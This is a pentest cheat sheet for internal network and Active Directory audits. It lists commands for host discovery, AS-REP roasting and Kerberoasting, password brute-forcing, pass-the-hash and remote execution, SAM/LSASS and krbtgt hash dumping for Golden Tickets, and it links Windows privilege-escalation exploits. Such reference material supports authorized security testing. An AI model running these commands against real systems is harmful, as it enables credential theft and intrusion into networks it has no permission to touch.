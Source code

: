 # Internal Audit - Plan

{% embed url="https://pentestbook.six2dez.com/others/internal-pentest" %}

{% file src="../../.gitbook/assets/Pentest_Active_Directory_Environment_1666475020.pdf" %}

## Network discovery

### Scanning

```bash
# BEST - https://miloserdov.org/?p=5248
# discover
sudo nmap -v -sn -PE -n --min-hostgroup 1024 --min-parallelism 1024 -oX nmap_output.xml $network_ip
# extract the hosts
grep -A 2 'up' nmap_output.xml | grep -E -o '[0-9]+\.[0-9]+\.[0-9]+\.[0-9]+' > hosts.txt
# scan them, find routers
sudo nmap -v -PE -n --min-hostgroup 1024 --min-parallelism 1024 -p 80,443,8080,1080 --open -iL hosts.txt -oX nmap_routers.xml

# OTHERS
# Ping discovery, Top 20, fragment packets, no DNS resolution
nmap -v --top-ports 20 $ip/24 -f -n --open -oA
# Ping discovery, Top 200, fragment packets, no DNS resolution, service version
nmap -v --top-ports 200 $ip/24 -f -n -sV --open -oA
# Top 1000, fragment packets, no DNS resolution, service version, all alive (no ping)
nmap -v --top-ports 1000 $ip/24 -f -n -sV -Pn --open -oA
```

## Windows AD

{% embed url="https://wadcoms.github.io" %}
Check this
{% endembed %}

### If you have no credentials

```bash
# get basic infos
cme smb $ip

# Detect SMB on network
responder-RunFinger -i X.X.X.0/24

# Find DC
nslookup -q=srv _ldap._tcp.dc._msdcs.<domain.name>
nslookup -type=srv _ldap._tcp.<domain.name> | grep ldap | cut -d ' ' -f 6 | sed 's/\.$//g'

# Enumerate DC
ldapsearch -h <DC.IP> -x -s base namingcontexts

# Check for null session, if got users go for ASREPRoast with GetNPUsers
ldapsearch -h <DC.IP> -x -b "DC=XX,DC=XX"

# Get hashes with no krb preauth
GetNPUsers.py [Domain Name]/ -dc-ip [Domain Controller IP address] -request
GetNPUsers.py 'DC.LOCAL/' -usersfile users.txt -format hashcat -outputfile hashes.aspreroast -dc-ip 10.10.10.10

# Get domain name
crackmapexec smb 10.10.10.10
smbmap -H $dc_ip -u '' -p ''

# Get Users List
GetADUsers.py DC.local/ -dc-ip $dc_ip -debug

# Get Users from ldap
windapsearch -U — full — dc-ip $dc_ip

# Get base domain
ldapsearch -x -h $dc_ip -s base namingcontexts

# Get more info from DC
ldapsearch -x -h $dc_ip -b ‘DC=DCNAME,DC=LOCAL’

# User Domain info
Get-ADUser $name

# Forest info
Get-ADForest

# Get all computers in the current domain
Get-NetComputer
```

#### Kerberos

```bash
# Kerberoasting (hashcat 13100)
GetUserSPNs.py -request -save -dc-ip <IP> domain/user # hashcat 13100

# Bruteforce usernames and passwords with kerbrute
kerbrute.py -d <DC.LOCAL> -users <users_file> -passwords <passwords_file> -outputfile <output_file>

# ASREPRoast (hashcat 18200)
GetNPUsers.py <domain_name>/ -usersfile <users_file> -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>

# PTH/PTK
# Request ticket
getTGT.py <domain_name>/<user_name> -hashes [lm_hash]:<ntlm_hash>
getTGT.py <domain_name>/<user_name> -aesKey <aes_key>
getTGT.py <domain_name>/<user_name>:[password]
# Set ticket
export KRB5CCNAME=<TGT_ccache_file>
# Use it
psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
psexec.py -hashes 'hash' -dc-ip 10.10.10.10 username@10.10.10.10
smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```

### If you have credentials

```bash
# Enum AD AIO
# https://github.com/CasperGN/ActiveDirectoryEnumeration
python3 -m ade --dc <domain.name> -u <user@domain.name> --help
# https://github.com/adrecon/ADRecon from Windows on Domain

# windapsearch
# https://github.com/ropnop/go-windapsearch
windapsearch -d <domain>.<name> -u <user> -p <password> --help

# LDAP
# Domain users
ldapsearch -LLL -x -H ldap://<DC.IP> -D "<USER>@<DOMAIN.NAME>" -w '<PASSWORD>' -b dc=<DOMAIN NAME>,dc=<DOMAIN NAME> -o ldif-wrap=no "(&(objectClass=user)(objectCategory=person))" name sAMAccountName userPrincipalName memberOf primaryGroupID adminCount userAccountControl description servicePrincipalName objectSid pwdLastSet lastLogon -E pr=1000/noprompt | tee domain_users.txt

# Domain computers
ldapsearch -LLL -x -H ldap://<DC.IP> -D "<USER>@<DOMAIN.NAME>" -w '<PASSWORD>' -b dc=<DOMAIN NAME>,dc=<DOMAIN NAME> -o ldif-wrap=no "(objectClass=computer)" name dNSHostname memberOf operatingSystem operatingSystemVersion lastLogonTimestamp servicePrincipalName description userAccountControl | tee domain_computers.txt

# Domain groups
ldapsearch -LLL -x -H ldap://<DC.IP> -D "<USER>@<DOMAIN.NAME>" -w '<PASSWORD>' -b dc=<DOMAIN NAME>,dc=<DOMAIN NAME> -o ldif-wrap=no "(objectClass=group)" name sAMAccountName memberOf member description objectSid | tee domain_groups.txt

# RPClient - enumeration users, groups, ...
rpcclient -U "DOMAIN/username%password" <domaincontroller name or IP>" -c dsr_enumtrustdom
rpcclient -U "DOMAIN/username%password" <domaincontroller name or IP>" -c enumdomains
rpcclient -U "DOMAIN/username%password" <domaincontroller name or IP>" -c enumdomusers
rpcclient -U "DOMAIN/username%password" <domaincontroller name or IP>" -c enumdomgroups

# CME
# Run commands

# PS
cme smb <IP> -u <USER> -p '<PASS>' -X 'Get-Host'
# CMD
cme smb <IP> -u <USER> -p '<PASS>' -x whoami
# PTH
cme smb <IP> -u <USER> -H <NTHASH> -x whoami
# Other methods
cme smb <IP> -u <USER> -p '<PASS>' --exec-method {mmcexec,smbexec,atexec,wmiexec}

# Dumps

# SAM
cme smb <IP> -d <DOMAIN> -u <USER> -p '<PASS>' --sam
# LSASS
cme smb <IP> -d <DOMAIN> -u <USER> -p '<PASS>' --lsa
# Sessions
cme smb <IP> -d <DOMAIN> -u <USER> -p '<PASS>' --sessions
# Logged users
cme smb <IP> -d <DOMAIN> -u <USER> -p '<PASS>' --loggedon-users
# Disks
cme smb <IP> -d <DOMAIN> -u <USER> -p '<PASS>' --disks
# Users
cme smb <IP> -d <DOMAIN> -u <USER> -p '<PASS>' --users #Enumerate users
# Groups
cme smb <IP> -d <DOMAIN> -u <USER> -p '<PASS>' --groups
# Local groups
cme smb <IP> -d <DOMAIN> -u <USER> -p '<PASS>' --local-groups
# Password policy
cme smb <IP> -d <DOMAIN> -u <USER> -p '<PASS>' --pass-pol
```

#### Dumps secrets

```bash
# User hash
secretsdump.py '<DC.NAME>/<User>@<DC.IP>' -just-dc-user user1

# krbtgt hash dump -> Golden Ticket
secretsdump.py '<DC.NAME>/<User>@<DC.IP>' -just-dc-user krbtgt
```

### Local Privilege Escalation

#### Juicy Potato

{% hint style="info" %}
**Abuse SeImpersonate or SeAssignPrimaryToken Privileges for System Impersonation**

Works only until Windows Server 2016 and Windows 10 until patch 1803.
{% endhint %}

{% embed url="https://github.com/ohpe/juicy-potato" %}

{% embed url="https://github.com/TsukiCTF/Lovely-Potato" %}

#### PrintSpoofer

{% hint style="info" %}
**Exploit the PrinterBug for System Impersonation**

Works for Windows Server 2019 and Windows 10.
{% endhint %}

{% embed url="https://github.com/itm4n/PrintSpoofer" %}

#### RoguePotato

{% hint style="info" %}
**From Service Account to System**

Works for Windows Server 2019 and Windows 10.
{% endhint %}

{% embed url="https://github.com/antonioCoco/RoguePotato" %}

#### Abusing Token Privileges

{% embed url="https://foxglovesecurity.com/2017/08/25/abusing-token-privileges-for-windows-local-privilege-escalation" %}

#### SMBGhost CVE-2020–0796

{% embed url="https://github.com/danigargu/CVE-2020-0796" %}

#### CVE-2021–36934 (HiveNightmare/SeriousSAM)

{% embed url="https://github.com/cube0x0/CVE-2021-36934" %}

## Linux

### Lynis

{% hint style="info" %}
Lynis is a **battle-tested security tool** for systems running Linux, macOS, or Unix-based operating system. It performs an extensive health scan of your systems to support system hardening and compliance testing.
{% endhint %}

In order to install **Lynis** on your system, you must follow these steps :

```bash
git clone https://github.com/CISOfy/lynis.git
cd lynis
./lynis audit system -Q
```
